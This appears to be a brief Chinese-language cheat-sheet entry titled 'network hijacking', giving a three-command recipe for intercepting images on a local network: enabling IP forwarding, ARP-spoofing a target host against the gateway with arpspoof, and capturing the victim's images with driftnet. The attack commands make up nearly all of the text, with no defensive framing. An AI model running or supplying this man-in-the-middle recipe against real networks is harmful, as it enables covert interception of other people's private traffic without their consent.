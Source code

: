 # 网络劫持

## 局域网图片劫持

```JS
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 网关 对方ip
driftnet -i eth0
```